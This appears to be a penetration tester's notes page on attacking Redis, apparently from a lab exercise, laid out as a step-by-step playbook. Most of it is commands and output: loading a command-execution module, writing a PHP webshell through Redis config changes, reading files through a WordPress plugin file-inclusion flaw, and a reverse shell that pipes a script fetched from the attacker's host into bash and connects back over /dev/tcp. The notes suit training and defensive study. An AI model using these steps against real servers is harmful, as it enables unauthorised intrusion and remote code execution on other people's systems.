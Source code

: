 https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

#### Download Redis

OPTION 1:

```bash - kali
sudo apt install redis-tools
```

```bash - kali
redis-cli -h $TARGET -a Ready4Redis?
```

If password doesn't work try obtaining the [[#Redis config files]].

xxx.xxx.xxx.xxx:6379> `ping`
`PONG`

```bash - kali
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand && cd RedisModules-ExecuteCommand
```

```bash - kali
sudo make
```

Upload module.so into victim (Example by FTP):

We can google "ftp pub directory" to find that the default location is in /var/ftp/pub.

>/var/ftp/pub/module.so

### Redis RCE
```bash - kali
redis-cli -h $TARGET
```

```bash - kali
MODULE LOAD /var/ftp/pub/module.so
```

```bash - kali
system.exec "id"
```

[[Port 22 - SSH  ~#Generate key upload to victim]]

### Redis config files
Use with LFI vulnerability.

```bash - kali
curl http:$TARGET/?path=/etc/redis/redis.conf -o redis.conf
```

```bash - kali
curl http:$TARGET/?path=/etc/systemd/system/redis.service
```

#### Redis webshell
After logging in successfully:
Try with /var/www/ and /var/www/html.
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /var/www/html
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
(error) ERR
```

If you get an error as seen above, try obtaining redis.service file from [[#Redis config files]] and note where ReadWriteDirectories variable points to. 
```bash - kali
...
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
...
```

Try the steps again with the new paths:
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
OK
xxx.xxx.xxx.xxx:6379> 
```

We can then use LFI to read this file. The contents will be in Redis RDB format so let's output it to a file and run `strings`.

```bash - kali
┌──(kali㉿kali)-[~]
└─$ curl http://$TARGET/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   193  100   193    0     0   2014      0 --:--:-- --:--:-- --:--:--  2031
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ strings test.php      
REDIS0009
        redis-ver
5.0.14
redis-bits
ctime
used-mem
aof-preamble
test
uid=1000(alice) gid=1000(alice) groups=1000(alice)
 {"success":true,"data":{"output":[]}}
```


The output from the `id` command can be found in this file. This means we can execute a reverse shell using this method. Let's start by creating a file on our kali host named **shell.sh** with the following contents.

```bash - kali
#!/bin/bash
/bin/bash -i >& /dev/tcp/$KALI/443 0>&1
```

Let's host this file using a python webserver to make it available to the target.

![[Python#Server]]

We then need to start a listener to catch the reverse shell.
![[rlwrap]]

Next, let's use our Redis session to cause the target to download and pipe **shell.sh** into `bash`.

```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('curl $KALI/shell.sh | bash'); ?>"
OK
```

Finally, we trigger our reverse shell by using the WordPress LFI.

```bash - kali
curl http:$TARGET/?path=/opt/redis-files/test.php
```

This command will hang, and we will receive a connection to our listener.

```bash - kali
connect to [$KALI] from (UNKNOWN) [xxx.xxx.xxx.xxx] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
```
